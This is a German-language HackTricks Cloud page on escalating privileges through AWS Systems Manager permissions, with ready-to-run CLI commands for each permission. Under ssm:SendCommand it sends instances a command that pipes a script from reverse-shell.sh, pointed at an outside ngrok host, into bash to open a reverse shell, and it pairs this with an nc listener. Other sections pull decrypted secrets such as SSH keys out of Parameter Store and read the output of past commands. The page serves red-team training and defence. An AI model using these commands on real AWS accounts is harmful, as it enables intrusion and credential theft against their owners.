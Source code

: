 # AWS - SSM Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## SSM

Für weitere Informationen zu SSM siehe:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ein Angreifer mit der Berechtigung **`ssm:SendCommand`** kann **Befehle in Instanzen ausführen**, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Falls Sie diese Technik verwenden, um Privilegien innerhalb einer bereits kompromittierten EC2-Instanz zu eskalieren, könnten Sie einfach die rev shell lokal erfassen mit:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

### `ssm:StartSession`

Ein Angreifer mit der Berechtigung **`ssm:StartSession`** kann **eine SSH-ähnliche Sitzung in Instanzen** starten, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Um eine Sitzung zu starten, benötigen Sie das **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

#### Privilegieneskalation zu ECS

Wenn **ECS-Aufgaben** mit **`ExecuteCommand` aktiviert** ausgeführt werden, können Benutzer mit ausreichenden Berechtigungen `ecs execute-command` verwenden, um **einen Befehl** innerhalb des Containers auszuführen.\
Laut [**der Dokumentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) geschieht dies durch die Erstellung eines sicheren Kanals zwischen dem Gerät, das Sie verwenden, um den „_exec_“-Befehl zu initiieren, und dem Zielcontainer mit SSM Session Manager. (SSM Session Manager Plugin ist notwendig, damit dies funktioniert)\
Daher werden Benutzer mit `ssm:StartSession` in der Lage sein, **eine Shell innerhalb von ECS-Aufgaben** mit dieser Option aktiviert zu erhalten, indem sie einfach Folgendes ausführen:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den `ECS` IAM-Rollen, die an laufende Aufgaben mit aktiviertem `ExecuteCommand` angehängt sind.

### `ssm:ResumeSession`

Ein Angreifer mit der Berechtigung **`ssm:ResumeSession`** kann eine **SSH-ähnliche Sitzung in Instanzen** neu **starten**, die den Amazon SSM-Agenten mit einem **getrennten** SSM-Sitzungsstatus ausführen und die **IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten und getrennten Sitzungen angehängt sind.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, die **SSM-Parameter** aufzulisten und **diese im Klartext zu lesen**. In diesen Parametern findet man häufig **sensible Informationen** wie SSH-Schlüssel oder API-Schlüssel.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Parameter finden.

### `ssm:ListCommands`

Ein Angreifer mit dieser Berechtigung kann alle **Befehle** auflisten, die gesendet wurden, und hoffentlich **sensible Informationen** darin finden.
```
aws ssm list-commands
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Befehlszeilen finden.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ein Angreifer mit diesen Berechtigungen kann alle **Befehle** auflisten, die gesendet wurden, und **die Ausgabe** lesen, in der Hoffnung, **sensible Informationen** darin zu finden.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen im Output der Befehlszeilen.

### Codebuild

Sie können SSM auch verwenden, um in ein Codebuild-Projekt einzudringen, das gerade erstellt wird:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
